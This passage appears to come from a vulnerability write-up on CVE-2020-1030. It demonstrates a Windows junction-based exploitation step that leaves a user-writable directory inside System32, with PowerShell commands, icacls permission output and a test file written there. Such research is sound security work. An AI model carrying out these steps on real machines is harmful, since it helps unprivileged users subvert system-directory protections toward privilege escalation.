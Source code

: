 ```powershell
PS C:\Users\User\Desktop> New-Item -ItemType Junction -Path "C:\Users\User\Desktop\junction"  -Target "C:\Windows\System32\"
```
<sub>Set the junction directory to point to System32</sub>

Run the modified PoC as shown.

![createdirectorLives](images/CVE-2020-1030/createdirectorLives.png)

Yep. *C:\Windows\system32\createDirectoryLives* is my newly created user writeable directory.

```powershell

PS C:\Users\User\Desktop> icacls.exe "C:\Windows\System32\createDirectoryLives\"
C:\Windows\System32\createDirectoryLives\ BUILTIN\Users:(CI)(S,WD,AD,REA,RA)
                                          NT AUTHORITY\SYSTEM:(R,W,D,WDAC,WO,DC)
                                          CREATOR OWNER:(OI)(CI)(IO)(R,W,D,WDAC,WO,DC)
                                          NT AUTHORITY\SYSTEM:(OI)(CI)(R,W,D,WDAC,WO,DC)
                                          BUILTIN\Administrators:(OI)(CI)(R,W,D,WDAC,WO,DC)
                                          NT SERVICE\TrustedInstaller:(I)(F)
                                          NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                          NT AUTHORITY\SYSTEM:(I)(F)
                                          NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                          BUILTIN\Administrators:(I)(F)
                                          BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                          BUILTIN\Users:(I)(RX)
                                          BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                          CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files

PS C:\Users\User\Desktop> echo "it's alive!  it's alive!!" > C:\Windows\System32\createDirectoryLives\win.txt

PS C:\Users\User\Desktop> type  C:\Windows\System32\createDirectoryLives\win.txt
it's alive!  it's alive!!
```
<sub> Verifying *C:\Windows\System32\createDirectoryLives*</sub>
